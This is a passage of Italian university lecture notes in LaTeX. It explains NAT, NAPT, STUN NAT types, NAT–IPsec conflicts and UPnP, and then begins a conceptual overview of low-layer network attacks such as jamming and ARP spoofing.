Negli ultimi anni, con l'espansione continua di Internet, gli indirizzi IP sono diventati pochi e conseguentemente costosi. Inoltre è nata la necessità di non mostrare alla rete esterna la struttura interna di una Intranet. Il \textbf{NAT} (Network Address Translation) ed il \textbf{NAPT} (Network Address Port Translation) mascherano un indirizzo tramite un proxy a livello IP. In pratica un server NAT, trasparente per l'utente interno, viene visto dall'esterno come la sorgente di comunicazione; in realtà esso modifica gli indirizzi sorgente (IP e porta) dei pacchetti in transito. Se un pacchetto proveniente dalla rete locale è destinato ad un host presente nella rete esterna, il server NAT provvede a cambiare IP e porta sorgente sostituendoli con i propri. Se, viceversa, un pacchetto proveniente da un host esterno è diretto verso un host interno, questo avrà come indirizzo di destinazione quello del server NAT, che poi provvederà a sostituire IP (e porta) di destinazione con quello di un host della rete interna.

Così facendo è possibile associare ad uno o più indirizzi IP \textit{pubblici} (cioè quello del NAT) più indirizzi IP \textit{privati} o \textit{non routable}, dunque creare una sottorete composta da indirizzi IP visibili solo localmente. Così facendo è possibile ovviare (temporaneamente) sia al problema dei pochi indirizzi IPv4 pubblici disponibili (ad uno o più IP è associato un insieme di host), sia al problema di \textquotedblleft nascondere" la struttura di una rete interna.
\begin{table*}[h]
	\centering
	\begin{tabular}{ccc}
		\toprule[0.5ex]
		Classe & Private Address Range & Indirizzi Disponibili \\
		\midrule
		A & $10.0.0.0 - 10.255.255.255$ & $16.777.216$\\
		B & $172.16.0.0 - 172.31.255.255$ & $1.048.576$\\
		C & $192.168.0.0 - 192.168.255.255$ & $65.536$\\
		\bottomrule[0.5ex]
	\end{tabular}
	\caption{Spazio degli indirizzi non routable.}
	\label{tab:non-routable-space-address}
\end{table*}
Nella Tabella \ref{tab:non-routable-space-address} sono presenti le tre classi di indirizzi non routable assegnabili a reti locali; per ulteriori dettagli si veda RFC 1918.
\begin{figure}
	\centering
	
\includegraphics[scale = 0.65]{images/dynamic-NAT}
	\caption{A sinistra un esempio di NAT dinamico, a destra un esempio di NAPT.}
	\label{img:dynamic-NAT}
\end{figure}

Abbiamo detto che il server NAT svolge un \textit{mapping tra indirizzi interi ed esterni}. In generale esistono due tipi di NAT: \textit{statico} e \textit{dinamico}. Il NAT statico effettua un mapping uno-a-uno tra indirizzi esterni ed indirizzi interni: è molto facile da implementare, ma non risolve il problema della scarsità di indirizzi poichè ogni indirizzo esterno corrisponde ad uno interno (unicità); per questo ha un uso molto limitato ed in genere può servire in congiunzione ad un firewall. Il NAT dinamico (Figura \ref{img:dynamic-NAT}) effettua un mapping uno-a-molti tra indirizzi esterni ed indirizzi interni; rispetto al precedente è un meno semplice da implementare e richiede un server stateful, ma risolve il problema della scarsità degli indirizzi. Con il NAT dinamico un indirizzo interno è mappato in uno esterno tra un \textquotedblleft pool" di indirizzi disponibili. In questo caso può accadere però che due host interni usino la stessa porta; per ovviare a questo problema si fa ricorso al \textbf{NAPT} (\textit{Network Address and Port Translation}) (Figura \ref{img:dynamic-NAT}), che effettua un mapping dinamico tra indirizzi interni ed esterni utilizzando porte dinamiche. In sostanza i NAPT sono simili ai Network Address Translation, ai quali però viene aggiunta la funzione di tradurre anche le porte e, quindi, dare una diversa mappatura delle porte rispetto a quella vista dall'esterno. Con questa mappatura ci si riserva la possibilità di utilizzare un software anche da remoto senza aprire porte che potrebbero essere soggette ad eventuali attacchi.

Solitamente insieme al NAT viene utilizzato un altro protocollo: \textbf{IPsec} (\textit{IP security}). Sostanzialmente è uno standard che si prefigge di ottenere connessioni sicure su reti IP. La sicurezza viene raggiunta attraverso funzionalità di autenticazione, cifratura e controllo di integrità dei pacchetti IP (datagrammi); in pratica viene aggiunto un header a livello 3. IPsec è quindi una collezione di protocolli formata da alcuni che implementano lo scambio delle chiavi per realizzare il flusso crittografato ed altri che forniscono la cifratura del flusso di dati. Per quanto riguarda il secondo aspetto, esistono due protocolli: \textbf{Authentication Header (AH)} e \textbf{Encapsulating Security Payload (ESP)}. AH fornisce autenticazione e integrità del messaggio, ma non offre la confidenzialità, ESP fornisce invece autenticazione, confidenzialità e controllo di integrità del messaggio; per questi motivi ESP è molto più usato di AH. Entrambe le modalità tuttavia presentano problemi analoghi.

Problema: sia il NAT sia l'IPsec richiedono un ricalcolo dei checksum IP e TCP; le due cose possono interferire \textit{molto} male, portando ad un completo blocco delle comunicazioni.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.7]{images/NAPT-IPsec}
	\caption{Possibili modi di configurazione del NAPT e IPsec.}
	\label{img:NAPT-IPsec}
\end{figure}

In Figura \ref{img:NAPT-IPsec} sono rappresentati tre diversi scenari con cui è possibile configurare NAPT e IPsec. Una idea potrebbe essere quella di porre il NAPT prima dell'IPsec (o insieme). Teoricamente queste idee sarebbero fattibili, ma non lo sono in pratica: la rete locale non viene protetta e si danno le credenziali all'IPsec. In ogni caso, un host dietro ad un NAT non può cominciare una comunicazione IPsec e la co-locazione di NAT e IPsec è un potenziale pericolo per la sicurezza. L'IPsec risulterebbe dunque un elemento di \textquotedblleft fastidio". Inoltre, se viene posto l'IPSec prima del NAT e viene criptato l'header, non è possibile tradurre l'indirizzo IP. Per ovviare al problema della comunicazione cifrata, tuttavia, potremmo scegliere due strade:
\begin{enumerate}
	\item Togliere il NAT.
	\item IP-over-IP: incapsula il pacchetto ESP in un altro pacchetto UDP.
\end{enumerate}

Facciamo adesso un passo indietro ridefinendo il NAT. Il NAT nasce nel 1994 (RFC 1631) come metodo per alleviare il problema della scarsità di indirizzi IPv4; l'RFC 2776 del 2000 definisce il \textquotedblleft Network Address Translation -- Protocol Translation (NAT-PT)". L'idea di base è la seguente: in Internet i pacchetti \textquotedblleft non routable" non sono trasportati, vengono scartati dai router perché l'indirizzo IP \textit{non è univoco}; serve quindi una traslazione da indirizzo non routable ad un indirizzo routable e questo compito viene svolto dal NAT. Vediamo in dettaglio le operazioni svolte da un NAT; sostanzialmente il proprio compito è quello di effettuare un \textbf{binding}, ossia una associazione bidirezionale, in questo caso, tra triple:
$$\{\text{IP, Protocollo, Porta}\}\text{ (interna)} \Longleftrightarrow \{\text{IP, Protocollo, Porta}\}\text{ (esterna)}$$
Nella prima versione del NAT creata nel 1994 (RFC 1631) veniva variato solamente l'indirizzo IP; questa prima idea funzionava abbastanza bene, ma non risolveva la scarsità di indirizzi, poiché il numero di indirizzi necessari al NAT è pari al numero di PC che vogliono utilizzare \textit{contemporaneamente} lo stesso protocollo. Nella versione del 2000 (RFC 2776), invece, vengono variati l'indirizzo IP e la porta sorgente. Questa tecnica funziona poiché aggira il problema della scarsità di indirizzi: il numero di connessioni contemporanee (bindings) è $\approx 64000$ (well-known ports escluse).

Quando arriva un pacchetto sull'interfaccia \textit{interna} del NAT si cerca un binding: se è presente, l'header del pacchetto viene modificato e viene effettuato il forward; se invece non è presente, viene creato un binding, viene modificato l'header del pacchetto e viene effettuato il forward.

Quando arriva un pacchetto sull'interfaccia \textit{esterna} del NAT si cerca un binding: se è presente, l'header del pacchetto viene modificato e viene effettuato il forward; se invece non è presente, il pacchetto viene scartato. Un binding in un server NAT piò essere cancellato anche allo scadere di un timer.

Con queste politiche, un binding viene creato solamente dagli host interni che iniziano la comunicazione, poiché i pacchetti provenienti dall'esterno vengono scartati. Questo può far pensare che la rete sia sicura, ma questa concezione è del tutto sbagliata, perché se un host esterno volesse comunicare con un host interno non potrebbe farlo. A questo scopo solitamente viene introdotto anche un \textit{filter} che ha il compito di decidere quali triple esterne possono essere ritradotte nelle corrispondenti interne. Un problema dovuto all'introduzione del filter proviene dal fatto che diversi tipi di filter possono dar luogo a diversi comportamenti del NAT, cioè si potrebbe avere un comportamento non deterministico: alcuni comportamenti sono voluti, altri invece no.\\

Un problema che nasce con il NAT, sopratutto per connessioni P2P e VoIP, è il cosidetto NAT-Traversal, ovvero quando due endpoint vogliono comunicare ma sono dietro a due distinti NAT. Infatti il NAT non rispetta il principio di comunicazioni end-to-end ideato per internet. Una soluzione è l'uso del port forwarding oppure le varie tecniche di NAT-Traversal (SOCKS, UpnP, Hole Punching, STUN). 

Applicare NAT e filter in TCP e UDP non è la stessa cosa. Sostanzialmente in TCP è semplice perché è connection-oriented e mantiene una \textit{port preservation} tale che per una comunicazione TCP, gli endpoint usano gli stessi numer di porta interni ed esterni. Questa cosa non accade nell' UDP perché essendo connection-less, connessioni multiple tra endpoint distinti possono avere la stessa porta sorgente. \\
Inoltre nel TCP, essendo un protocollo stateful, il binding è aggiornato in base a un timer che varia a seconda dello stato della connessione e della dimensione della CWIN (finestra di congestione). In UDP, essendo un protocollo stateless, il binding è basato solo su un timer e sulla \textquotedblleft conoscenza" del comportamento dell'applicazione (i.e. porte utilizzate).\\
Nel TCP il NAT ha di solito un comportamento simmetrico, ossia binding e filter sono basati sulla quintupla $\{\text{protocollo, IP sorgente, porta sorgente, IP destinazione, porta destinazione}\}$ e per effettuare il binding è sufficiente verificare il pacchetto che presenta il flag $\text{SYN} = 1$. Così facendo, le comunicazioni devono partire dall'interno e non è possibile effettuare \textit{callback}.

Tuttavia, quello che va bene per TCP non è detto che vada bene per UDP. In TCP infatti, come già detto, uno stream è definito da una quintupla ed il demultiplexing è effettuato dal kernel e definito a livello di TCP. Nell'UDP, invece, il demultiplexing viene effettuato a livello \textit{applicativo} e inoltre una singola applicazione può usare una sola socket in uscita per due stream diversi con destinatari diversi (il TCP non lo permette). Applicare NAT e filter a UDP è dunque difficile perché dovremmo sapere in anticipo cosa fa l'applicazione; idealmente questa gestione dovrebbe essere inclusa direttamente nelle applicazioni, ma la maggior parte delle software house non producono applicazioni basate su UDP di tipo \textit{NAT oriented}. Serve dunque un diverso comportamento del NAT nel caso di UDP.

\newpage
Il comportamento del NAT per l'UDP è gestito in base a come viene eseguito il filter; in base a come si comporta il NAT alcuni applicativi possono o meno funzionare, in parte o del tutto. I diversi tipi di NAT sono definiti nel protocollo STUN (Session Traversal Utilities for NAT), un protocollo di NAT Traversal inizialmente sviluppato per UDP e successivamente ampliato anche a connessioni TCP. Esistono quattro diversi comportamenti:
\begin{enumerate}
	\item \textbf{Full Cone NAT} (o one-to-one NAT). Una volta che un indirizzo interno, il mio host (es. il mio host) \texttt{iAddr:iPort} viene mappato in un indirizzo esterno (es. il mio gateway) \texttt{eAddr:ePort}, tutti i pacchetti provenienti da \texttt{iAddr:iPort} vengono inviati attraverso \texttt{eAddr:ePort}.  Qualsiasi host esterno \texttt{hAddr:hPort}, con qualsiasi indirizzo e porta, può quindi inviare pacchetti a \texttt{iAddr:iPort} attraverso \texttt{eAddr:ePort}.  In questo caso il filter non fa nulla (\texttt{*/*}), ma chiunque può raggiungere l'host interno (posso fare port scanning). Questo è il tipo di NAT meno restrittivo: ha bisogno solo che la connessione passi da una specifica porta (quella che abbiamo parto). Per questo motivo è chiamato anche port-forwarding. 
	
	\item \textbf{(Address)-Restricted Cone NAT}. Simile al caso precedente, ma con qualche restrizione: come prima, una volta che un indirizzo interno (\texttt{iAddr:iPort}) viene mappato in un indirizzo esterno (\texttt{eAddr:ePort}), tutti i pacchetti provenienti da \texttt{iAddr:iPort} vengono inviati attraverso \texttt{eAddr:ePort}. In questo caso, però, un host esterno \texttt{hAddr:any} può inviare pacchetti verso \texttt{iAddr:iPort} attraverso il suo indirizzo esterno \texttt{eAddr:ePort} solo se \texttt{iAddr:iPort} ha inviato in precedenza un pacchetto a \texttt{hAddr:any} (in questo caso \texttt{any} significa che il numero di porta non è rilevante). In questo caso quindi il filter è basato solo sull'indirizzo IP del destinatario \texttt{hAddr/*}; questa scelta è limitante, chat di messaggistica istantanea o programmi P2P ad esempio non funzionano. 
	
	\item \textbf{Port Restricted Cone NAT}. Questo caso è simile ad un Address Restricted Cone NAT, ma le restrizioni includono anche i numeri di porta: una volta che un indirizzo interno (\texttt{iAddr:iPort}) viene mappato in un indirizzo esterno (\texttt{eAddr:ePort}), tutti i pacchetti provenienti da \texttt{iAddr:iPort} vengono inviati attraverso \texttt{eAddr:ePort}. In questo caso, un qualsiasi host esterno \texttt{hAddr:hPort} può inviare pacchetti verso \texttt{iAddr:iPort} solo se \texttt{iAddr:iPort} ha inviato in precedenza un pacchetto a \texttt{hAddr:hPort}. A differenza del caso precedente, la porta dell'host esterno è rilevante e deve coincidere con la porta che l'host interno aveva indicato come destinazione nella precedente richiesta. Qualsiasi pacchetto su una diversa \texttt{ePort} viene scartato. Dunque il filter è basato \textit{sulla porta e sull'indirizzo} del destinatario ed in questa situazione funzionano quasi tutti i programmi UDP, anche se con delle limitazioni. I Port Restricted Cone e Address Restricted Cone NAT sono anche detti NAT Dinamici.
	
	\item \textbf{Symmetric NAT}. E' esattamente come il NAT per il TCP. Vna volta che un indirizzo interno (\texttt{iAddr:iPort}) viene mappato in un indirizzo esterno (\texttt{eAddr:ePort}), tutti i pacchetti provenienti da \texttt{iAddr:iPort} vengono inviati attraverso \texttt{eAddr:ePort}; se lo stesso host interno invia un pacchetto con lo stesso indirizzo di sorgente, ma verso un'altra destinazione, non riuso la stessa porta di prima ma viene utilizzata una mappatura (binding) differente. Come il Port-restricted, solamente l'host esterno che riceve un pacchetto da un host interno può inviare un pacchetto indietro. La differenza con il Port-Restricted sta nel fatto che c'è un binding per ogni connessione oltre che per ogni host esterno. E' il tipo di NAT più restrittivo e non funzionano i programmi che hanno bisogno di referral \& handover (es. chat di messaggistica istantanea, MSN).	
\end{enumerate}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/nat_types.png}
	\caption{Tipi di NAT definiti nel protocollo STUN}
	\label{img:NAT_Types}
\end{figure}

Come fare se volessimo raggiungere un host appartenente alla stessa rete? Una prima idea, non tanto intelligente, potrebbe essere quella di far uscire e rientrare il pacchetto attraverso il NAT. Un'idea più furba è l'\textbf{hairpinning} e può comportare o meno l'uso di indirizzi esterni. L'hairpinning (o \textit{NAT loopback}) descrive una comunicazione tra due host che stanno dietro allo stesso dispositivo NAT utilizzando la propria mappa di endpoint. Poiché non tutti i dispositivi NAT supportano questa configurazione di comunicazione, le applicazioni dovrebbero esserne a conoscenza.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/STUN}
	\caption{STUN Diagram (RFC 3489).}
	\label{img:STUN}
\end{figure}

Affinché un host possa sapere quale tipo di NAT viene usato in una rete è necessario un protocollo in grado di rivelarlo. Abbiamo accennato precedentemente pertanto lo \textbf{STUN} (RFC 3489), un protocollo tipo request-reply (o try\&error) in grado di scoprire il tipo di NAT in uso. In Figura \ref{img:STUN} è riportato il diagramma dell'algoritmo generale utilizzato dallo STUN. STUN è un protocollo client-server. Un telefono o un software VoIP può includere un client STUN, che invierà una richiesta ad un server STUN. Il server riporterà al client STUN l'indirizzo IP pubblico e la porta UDP che il dispositivo NAT (es. router) sta associando al client per il traffico entrante nella rete. Le risposte permettono anche al client STUN di determinare che tipo di NAT è in uso.

Si noti, come già detto, che il NAT può essere \textit{non deterministico}, ossia potrebbe cambiare il proprio comportamento a seconda della disponibilità delle risorse. O, ancora, potrebbero esserci più NAT nel path sorgente/destinazione: in tal caso la classificazione non è rigorosa ed il comportamento non è prevedibile; il secondo livello di NAT potrebbe avere ipoteticamente lo stesso comportamento del primo. Dunque lo STUN \textquotedblleft fotografa" il comportamento del NAT ad un certo istante temporale, ma questo può variare sulla base delle risorse a disposizione, quindi del carico.\\
Vediamo adesso una classificazione più precisa del binding, ossia di come può lavorare un server NAT:
\begin{itemize}
	\item \textbf{Endpoint independent}. Il NAT riusa il binding per tutte le sessioni provenienti dallo stesso IP/porta; l'IP/porta esterno non è valutato; è come un \textit{Full Cone NAT}.
	
	\item \textbf{Endpoint address dependent}. Il NAT riusa il binding per tutte le sessioni provenienti dalla stesso IP/porta verso lo stesso IP esterno (la porta non si considera); è come un \textit{(Address) Restricted Cone NAT}.
	
	\item \textbf{Endpoint port dependent}. Il NAT riusa il binding per tutte le sessioni provenienti dalla stesso IP/porta verso la stessa porta esterna (l'IP non si considera); è come un \textit{Port Restricted Cone NAT}.
		
	\item \textbf{Endpoint address and port dependent}. Si utilizza la quintupla $$\{\text{protocollo, IP sorgente, porta sorgente, IP destinazione, porta destinazione}\},$$ cioè si riutilizza lo stesso mapping per tutti i pacchetti inviati ai medesimi IP/porta esterni; è come un \textit{Symmetric NAT}.
	
\end{itemize}
Il port binding lo possiamo suddividere in tre categorie:
\begin{itemize}
	\item \textbf{Port preservation}. Il NAT può tentare di mantenere la porta di origine. Nel caso in cui due host interni abbiano la stessa porta di origine, ad uno sarà cambiata la porta, mentre all'altro no.
	
	\item \textbf{Port overloading}. Il NAT fa una sorta di port preservation in modo aggressivo; in questo caso un secondo tentativo di binding fa scadere il binding esistente, dunque la porta non viene cambiato all'ultimo host che fa richiesta.
	
	\item \textbf{Port multiplexing}. Il NAT si occupa di fare demultiplexing cercando di mandare tutte le comunicazioni su una porta. All'esterno i pacchetti appaiono come se provenissero dallo stesso IP/porta, il NAT si occuperà di effettuare il demultiplexing corretto. Tuttavia, se due host interni volessero mandare due stream allo stesso host/porta esterno, allora non sarebbe possibile il demultiplexing. In questo caso uno dei due stream avrebbe assegnata una porta diversa. È dunque un \textit{comportamento non deterministico} in casi di traffico elevato.
\end{itemize}
Per il timer abbiamo quattro politiche di aggiornamento:
\begin{itemize}
	\item \textbf{Bidirectional}. Il timer viene aggiornato dai pacchetti che transitano in entrambi i sensi.
	\item \textbf{Outbound}. Il timer viene aggiornato solo dai pacchetti che transitano dall'interno verso l'esterno. L'aspetto negativo è che l'host interno deve rinnovarlo periodicamente, poiché se quest'ultimo riceve solamente il timer scade; è necessario dunque utilizzare un \textit{keep-alive}. Inoltre il timer potrebbe essere per-session o per-binding, nel caso di riuso del binding per più sessioni.
	\item \textbf{Inbound}. Il timer viene aggiornato solo dai pacchetti che transitano dall'esterno verso l'interno. Anche in questo caso è necessario un keep-alive.
	\item \textbf{Transport Protocol State}. Si effettua un'inferenza del tempo di vita/timing basandosi su informazioni di livello trasporto. All'atto pratico risulta molto difficile da programmare ed eventuali bug potrebbero dar luogo a vulnerabilità utilizzabili per attacchi di tipo DoS. Il problema è simile a quello del layer 7 del firewall (L7 filtering).
\end{itemize}
Vediamo, infine, una classificazione precisa per il filtering esterno:
\begin{itemize}
	\item \textbf{Endpoint independent}. Il filter non filtra o scarta i pacchetti: è come un \textit{Full Cone NAT}.
	
	\item \textbf{Endpoint address dependent}. Il filter filtra i pacchetti che non provengono dall'IP destinatario del binding: è come un \textit{Restricted Cone NAT}.
	
	\item \textbf{Endpoint address and port dependent}. Il filter filtra i pacchetti che non provengono dall'IP/porta destinatario del binding: è come un \textit{Symmetric NAT} od un \textit{Port Restricted Cone NAT}.
\end{itemize}
Si noti che il filter potrebbe avere un timer separato simile a quello del binding (i timer possono essere in qualche modo correlati).

\subsubsection{Considerazioni}
\begin{itemize}
	\item Le applicazioni P2P tentano di aggirare i NAT, ma così facendo si creano spesso problemi di sicurezza; \textquotedblleft bucare" in questo caso può significare aprire un numero di porte arbitrario.
	\item Protocolli simili a ICMP rischiano di fallire, perché nei payload sono spesso contenute informazioni relative all'IP/porta sorgente. Inoltre vi è la necessità di calcolare i checksum e molti NAT non supportano questo tipo di funzionalità, dunque molti pacchetti vengono scartati poiché i checksum non risultano validi.
	\item Il processo di IP fragmentation prevede di ricostruire i pacchetti (o mantenere informazioni del primo frammento), perché nei frammenti successivi l'header TCP/UDP è assente, ma questo potrebbe portare ad un attacco a frammentazione (si consideri anche che il primo frammento potrebbe arrivare fuori sequenza). Inoltre, genericamente il NAT attende l'arrivo di tutti i frammenti e nel caso in cui questi non siano stati ricevuti entro un tempo prestabilito, quelli in memoria vengono scartati: questo potrebbe comportare un grande spreco di risorse.
\end{itemize}
Altri protocolli potrebbero avere gli stessi tipi di problemi ed il NAT può tentare di modificare il contenuto stesso del payload. Esistono però dei protocolli che mirano a concordare automaticamente le tecnologie che si vogliono utilizzare (e.g. tipo di NAT) ed altre opzioni di comunicazione (e.g. tempo dopo il quale dei pacchetti vengono scartati):
\begin{itemize}
	\item \textbf{Universal Plug and Play (UPnP)}. È un insieme di protocolli e procedure per la definizione e l'annuncio di device e servizi. \textquotedblleft\textit{A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, convey its capabilities upon request, and learn about the presence and capabilities of other devices.}" [Wikipedia]
	\item \textbf{Internet Gateway Device (IGD) Standardized Device Control Protocol}. Permette ad un device UPnP di scoprire l'indirizzo esterno di un NAT e di creare binding/filters per i suoi servizi in maniera automatica.
\end{itemize}
L'aspetto positivo di questo tipo di protocolli è che tutto funziona molto bene ed in modo automatico, quello negativo è che le porte del NAT sono aperte in maniera incontrollata e potrebbero sovrascrivere dei binding esistenti (come ad esempio per la porta 80).
%!TEX root = ../Security&NetworkManagement.tex
\chapter{Attacchi}
Nell'ambito della sicurezza delle reti gli attacchi servono per capire le debolezze di una rete: si effettuano degli auto-attacchi mirati a scoprire le vulnerabilità del nostro sistema. Gli attacchi generalmente si distinguono e sono classificati sulla base del livello dello stack ISO/OSI al quale vengono compiuti. Si parla quindi di attacchi ai livelli bassi ed ai livelli alti della pila ISO/OSI. Più l'attacco è di basso livello, maggiore sarà la sua efficacia.

\section{Attacchi ai livelli bassi della pila ISO/OSI}
In questa sezione parleremo degli attacchi che vengono effettuati ai livelli bassi dello stack ISO/OSI, ossia ai primi tre livelli: fisico, collegamento e rete.

\subsection{Attacchi a livello fisico}
Tra gli attacchi a livello fisico vi sono quelli di tipo DoS (interruzione del collegamento o \textit{Jamming}), attacchi di \textit{Wiretapping}, sniffer hardware e sniffing in reti broadcast. Il jamming sul mezzo fisico si può fare solo se il mezzo lo permette, come nel caso di reti wireless o reti wired con cavi non schermati (si sbuccia fisicamente il cavo ethernet ad esempio). Il jamming risulta quindi molto difficile, ma basterebbe comunque far fallire la ricezione di un bit per invalidare il checksum e far scartare il pacchetto.

\subsection{Attacchi a livello collegamento}
Tra gli attacchi a livello collegamento abbiamo sempre quelli di tipo DoS (\textit{flood} di pacchetti, generazione di collisioni), spoofing (attacco in cui si impiegano delle tecniche per la falsificazione dell'identità) di indirizzi MAC e ARP-Spoofing. Generalmente un flood può essere mirato alla saturazione della banda e, se il mezzo è condiviso, si possono non rispettare i tempi di timeout e creare numerose collisioni, oppure mantenere il canale sempre occupato; un flood può essere banalmente mascherato inviando pacchetti con indirizzo mittente modificato.\\
In un sistema le vulnerabilità possono essere di tre tipi: volontarie, dovute ad un bug o \textit{vulnerability by design}. Il terzo tipo è il caso in cui si sa benissimo che è presente una vulnerabilità, ma non è possibile far niente per risolverla (altrimenti potrebbe non funzionare un protocollo): il protocollo ARP ne è un esempio.\\

Richiamiamo dunque brevemente il funzionamento del protocollo ARP attraverso un esempio. Supponiamo che la macchina 192.168.2.51 voglia raggiungere l'indirizzo 192.168.2.52 appartenente alla stessa sotto-rete; per farlo deve inviare un frame all'indirizzo MAC corrispondente. Nel caso in cui il mittente non conosca l'indirizzo MAC corrispondente, invia una richiesta ARP in broadcast chiedendo che la macchina 192.168.2.52 risponda notificando il proprio indirizzo MAC. La macchina 192.168.2.52 a questo punto risponde con un messaggio di ARP-Reply specificando che l'indirizzo IP 192.168.2.52 corrisponde al proprio indirizzo MAC 00:0a:95:9d:68:16. Di seguito sono riportati alcuni campi di un pacchetto ARP e l'algoritmo utilizzato per aggiornare la tabella ARP di ogni host:
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|}
		\hline
		Hardware type (ethernet) \\
		\hline
		Protocol type (IPv4) \\
		\hline
		[$\dots$] \\
		\hline
		Sender hardware address \\
		\hline
		Sender protocol address \\
		\hline
		Receiver hardware address \\
		\hline
		Receiver protocol address \\ \hline
	\end{tabular}
\end{figure}\\
\begin{codebox}
\Procname{$\proc{ARP-Table-Update}$}
\li \If I have that \texttt{hardware type} (almost definitely)
\li \Then \If I speak that \texttt{protocol}
\li \Then \If The pair \texttt{<protocol type, sender protocol address>} is already in my translation table
\li \Then Update the \texttt{sender hardware address} field of the entry with the new information
\li in the packet and set \texttt{merge\_flag} to \texttt{true}.
\li \If I am the target protocol address
\li \Then [$\dots$] \End \End \End \End
\end{codebox}
Normalmente l'ARP è un protocollo "a risposta", ovvero l'host aggiorna la sua tabella ARP quando riceve un ARP-Reply del suo pacchetto di richiesta. Se però cambio il mio indirizzo IP, gli altri host della sottorete continueranno ad avere il vecchio valore per un periodo di tempo. E' possibile, per definizione del protocollo, mandare anche degli ARP-Reply in broadcast senza nessuna richiesta ARP precedente, in modo che tutti gli host aggiornino il mio nuovo indirizzo. Questa tipo di messaggio è detto  "Gratuitous ARP".\\

